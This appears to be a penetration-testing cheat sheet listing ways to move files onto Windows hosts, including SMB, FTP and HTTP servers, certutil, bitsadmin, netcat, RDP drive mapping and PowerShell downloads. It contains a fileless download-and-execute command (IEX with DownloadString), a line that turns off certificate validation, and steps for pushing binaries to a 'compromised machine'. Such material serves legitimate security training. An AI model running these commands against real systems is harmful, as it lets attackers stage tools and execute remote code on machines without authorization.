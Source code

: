 ```yaml
---
legal-banner: true
---
```


### **Connecting to an SMB share using PowerShell**

1.  Set up an SMB server with credentials  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Convert password to a secure string  
    `$pass = convertto-securestring 'hackfast' -AsPlainText -Force`
3.  Create a credential object  
    `$cred = New-Object System.Management.Automation.PSCredential('hackfast',$pass)`
4.  Map the network drive  
    `New-PSDrive -Name hackfast -PSProvider FileSystem -Credential $cred -Root \\[IP-ADDRESS]\hackfast`
5.  Navigate to the mapped drive  
    `cd hackfast:`

### **Downloading files via SMB (no credentials)**

1.  Set up an SMB server  
    `sudo impacket-smbserver share -smb2support .`
2.  Download a file from the SMB server  
    `copy \\[IP-ADDRESS]\share\file.txt .`

### **Downloading files via SMB (with credentials)**

1.  Configure the SMB server using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Configure the SMB server using smbserver.py  
    `smbserver.py hackfast . -smb2support -username hackfast -password hackfast`
3.  Map a network drive  
    `net use z: \\[IP-ADDRESS]\hackfast /user:hackfast hackfast`
4.  Copy a file from the mapped drive  
    `copy z:\file.txt .`

### **Downloading files via FTP**

1.  Start an FTP server  
    `sudo python3 -m pyftpdlib --port 21`
2.  Download a file using PowerShell  
    `(New-Object Net.WebClient).DownloadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Users\Public\file.txt')`
3.  Automate FTP downloads with a command file  
    
    ![](../../img/Windows-Environment/2.png)

### **Setting up an HTTP server and downloading files (Python 2)**

1.  Start an HTTP server  
    `python -m SimpleHTTPServer 8000`
2.  Download a file using PowerShell  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
3.  Download a file using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
4.  Download a file using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`

### **Setting up an HTTP server and downloading files (Python 3)**

1.  Start an HTTP server  
    `python3 -m http.server 8000`
2.  Download a file using PowerShell  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
3.  Download a file using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
4.  Download a file using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`

### **Setting up an HTTP server and file download (PHP)**

1.  Start an HTTP server  
    `php -S 0.0.0.0:8000`
2.  Download a file using PowerShell  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
3.  Download a file using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
4.  Download a file using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`

### **Setting up an HTTP server and file download (Ruby)**

1.  Start an HTTP server  
    `ruby -run -e httpd . -p 8000`
2.  Download a file using PowerShell  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
3.  Download a file using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
4.  Download a file using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`

### **Setting up an Apache server and file download**

1.  Place the file in the Apache web directory  
    `cp nc.exe /var/www/html`
2.  Start the Apache server  
    `sudo systemctl start apache2`
3.  Download a file via browser or PowerShell  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]/file.txt -OutFile file.txt`

### **Encoding and decoding files with Base64**

1.  Generate an MD5 checksum  
    `md5sum file.txt`
2.  Encode file content to Base64  
    `cat file.txt | base64 -w 0; echo`
3.  Decode Base64 content on Windows  
    `[IO.File]::WriteAllBytes("C:\Temp\file.txt", [Convert]::FromBase64String("[BASE64-STRING]"))`
4.  Verify the MD5 checksum of the decoded file  
    `Get-FileHash C:\Temp\file.txt -Algorithm MD5`

### **Downloading files from a remote session**

1.  Create a PowerShell remoting session  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy a file from the remote session to the local machine  
    `Copy-Item -Path "C:\Users\Administrator\Desktop\file.txt" -Destination C:\ -FromSession $Session`

### **File transfers with netcat and ncat**

1.  Receiving a file (compromised machine)  
    - Using netcat (listening):  
      `nc -l -p 8000 > received_file.exe`
2.  Sending a file (attack host)  
    - Using netcat  
      `nc -q 0 [IP-ADDRESS] 8000 < file.exe`  
    - Using ncat  
      `ncat --send-only [IP-ADDRESS] 8000 < file.exe`

### **Downloading files via RDP (Linux to Windows)**

1.  Using rdesktop for file transfer  
    `rdesktop [IP-ADDRESS] -d [DOMAIN] -u [USERNAME] -p '[PASSWORD]' -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp for file transfer  
    `xfreerdp /v:[IP-ADDRESS] /d:[DOMAIN] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`
3.  Access mounted directory in the RDP session  
    Connect to `\\tsclient\` within the RDP session to transfer files.

### **PowerShell web downloads**

1.  Download a file using DownloadFile  
    `(New-Object Net.WebClient).DownloadFile('http://[IP-ADDRESS]:8000/file.ps1','C:\Temp\file.ps1')`
2.  Download a file asynchronously (non-blocking)  
    `(New-Object Net.WebClient).DownloadFileAsync('http://[IP-ADDRESS]:8000/file.ps1', 'C:\Temp\file.ps1')`
3.  Execute fileless download using DownloadString  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADDRESS]:8000/file.ps1')`
4.  Download a file using Invoke-WebRequest  
    `Invoke-WebRequest http://[IP-ADDRESS]:8000/file.ps1 -OutFile C:\Temp\file.ps1`
5.  Bypass Internet Explorer configuration  
    `Invoke-WebRequest http://[IP-ADDRESS]:8000/file.ps1 -UseBasicParsing`
6.  Bypass SSL/TLS certificate issues  
    `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
